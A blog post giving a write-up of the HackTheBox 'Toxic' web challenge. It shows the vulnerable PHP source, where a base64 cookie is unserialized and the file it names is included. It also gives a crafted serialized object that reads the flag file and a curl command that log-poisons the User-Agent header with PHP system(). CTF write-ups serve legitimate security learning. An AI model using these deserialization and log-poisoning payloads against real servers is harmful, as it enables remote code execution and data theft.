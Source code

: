 ```yaml
---
layout: post
title:  "Toxic Challenge HTB"
date:   2021-11-14 23:31:48 +0200
categories: HTB Challenge Web
---
```

Today I decided to do a very cool Web challenge from HackTheBox which included `LFI`, which exploited correctly would give us partial `RCE` in the server. My Target IP+Port was 
`http://178.62.96.143:30264/`
 
So looking at the website it seemed pretty basic and the links didnt lead anywhere. So I had to see the source code for myself.
There were quite some interesting lined we could definitly exploit like this:
{% highlight php linenos%}
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 
$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
{% endhighlight %}

So in Line 24 there is a dangerous function being called, and having access over it opens door to numerous exploits we can use. The exploit we are hinted is Log Poisoning hence the name of the challenge Toxin. In the docker file we are provided we can see that the `flag` name is genrated randomly and the path where logs are saved is `/var/log/nginx/acccess.log`. 
Having a look at the cookies we can see that we indeed have a `PHPSESSID` like shown in the code above
[![](/images/Toxin/Cookies.png)](/images/Toxin/Cookies.png)

so base64 decoding this gived us a serialised of bject of the class `PageModel`:
{% highlight php %}
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
{% endhighlight %}
the cookie
`PHPSESSID: Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL3d3dy9pbmRleC5odG1sIjt9` 

decode gives us :
`O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}`

![Flag](/images/Toxin/Flag.png)

O:9:"PageModel":1:{s:4:"file";s:11:"/flag_juePd";}

{% highlight bash %}
curl --user-agent "<?php system('ls /') ?>" http://178.62.96.143:30264/
{% endhighlight %}
